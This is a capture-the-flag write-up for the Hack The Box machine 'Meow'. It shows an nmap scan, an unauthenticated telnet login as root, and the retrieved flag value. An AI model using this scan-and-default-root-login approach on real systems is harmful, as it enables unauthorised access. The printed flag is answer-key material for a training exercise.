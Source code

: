 # Machine Name: Meow
**Platform:** Hack The Box
**Difficulty:** Very Easy
**OS:** Linux

## Introduction

* Brief description of the machine and its overall theme.
* Mention your initial thoughts and approach to the challenge.

## Recon

* **Nmap Scan:** `nmap meow.htb -T4 -Pn -sVC -oN ~/Desktop/nmap/meow.txt`

```bash
$ nmap meow.htb -T4 -Pn -sVC -oN ~/Desktop/nmap/meow.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-23 15:47 JST
Nmap scan report for meow.htb (10.129.1.17)
Host is up (0.18s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.55 seconds
```

- The nmap shows only one open port (23) , which is a `telnet`. 
## Vulnerability Identification

* **Vulnerability 1:** non-encryption
    * telnet is well known for not encrypting the communication. Attacker can easily commit middleman attack
* **Vulnerability 2 :** allowing root access
    * The telnet machine for this task has default root access. You can use *root* for logging in. 

```bash
$ telnet meow.htb
Trying 10.129.1.17...
Connected to meow.htb.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 23 Sep 2024 07:53:58 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             137
  Users logged in:       0
  IPv4 address for eth0: 10.129.1.17
  IPv6 address for eth0: dead:beef::250:56ff:feb0:1cb0

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```
## Exploitation

* **Gaining Initial Access:**
    * `telnet {target_ip}` to gain access to telnet
    * `ls` to find `flag.txt`
	    * `get` was not the right command apparently, so I used `cat` instead to reveal the .txt

```bash
root@Meow:~# ls
flag.txt  snap
root@Meow:~# get flag.txt

Command 'get' not found, but there are 18 similar ones.

root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 

```
## Lessons Learned

* telnet is vulnerable due to clear text communication
## Conclusion

* There was an open port 23 : telnet that allowed root access
* [ ] `flag.txt` was in the directory to easily gain flag

**Happy hacking!**